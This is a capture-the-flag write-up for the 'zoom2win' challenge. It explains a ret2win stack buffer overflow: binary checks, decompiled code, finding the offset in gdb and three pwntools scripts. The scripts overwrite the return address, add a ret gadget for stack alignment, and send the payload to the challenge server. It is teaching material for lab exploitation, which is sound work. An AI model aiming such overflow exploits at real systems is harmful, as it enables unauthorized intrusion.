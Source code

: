 # zoom2win

by ZeroDayTea

what would CTFs be without our favorite ret2win (nc 143.198.184.186 5003)

## Challenge

In this challenge we were given an ELF-64bit named `zoom2win` with no canary, NX enabled, and no PIE.

```
$ file zoom2win; checksec zoom2win 
zoom2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f4a85541e0d661960a7b05ed51b3513d58e85a5a, for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/zoom2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

```
./zoom2win                       
Let's not overcomplicate. Just zoom2win :)
chicken nugget

```

It seems that the program doesn't do anything. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v5; // [rsp-28h] [rbp-28h]
  __int64 v6; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v6 = v3;
  sub_401070("Let's not overcomplicate. Just zoom2win :)", argv, envp);
  return sub_401090(&v5);
}
```

From the source code, there is another function that caught my eyes. It's `flag` function. Let's take a look.

#### flag
```c
__int64 flag()
{
  __asm { endbr64 }
  return sub_401080("cat flag.txt");
}
```

From the main function, it seems that we need to overflow the input and jump into the `flag` function.

First, we could use gdb to create a pattern.
```
$ gdb -q ./zoom2win    
Reading symbols from ./zoom2win...
(No debugging symbols found in ./zoom2win)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/zoom2win 
Let's not overcomplicate. Just zoom2win :)
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdf48: 0x4141464141304141
gdb-peda$ pattern offset 0x4141464141304141
4702116732032008513 found at offset: 40
```

Nice, we got the offset/padding. Now we need to know the address of `flag` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401070  puts@plt
0x0000000000401080  system@plt
0x0000000000401090  gets@plt
0x00000000004010a0  setvbuf@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  flag
0x00000000004011b2  main
0x00000000004011de  bufinit
0x0000000000401250  __libc_csu_init
0x00000000004012c0  __libc_csu_fini
0x00000000004012c8  _fini
```

Let's make a solver using python
```python
from pwn import *

padding = 40 # offset from the input to return
flag = 0x0000000000401196 # flag address

s = process("./zoom2win")

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now we need to do is just run the program to make sure it works!
![](zoom2win-local.png)

Since it works, lets test on remote server by adding host, port and replacing `s = process("./zoom2win")` to `s = remote(host, port)`
```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now all we need to do is just run the program!

![](zoom2win-serverTry.png)

Wait what? Sadly we didn't get the flag :(

After some research, it seems the problem is stack alignment (Reference: [Buffer overflow stack alignment](https://youtu.be/vqNQe9xjz2Q)). From the youtube video, all that we need is just the address of return in main function and add it before add the address of flag into the payload.

```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(ret_main)
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now let's run the program again :D
![](zoom2win.png)

Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`
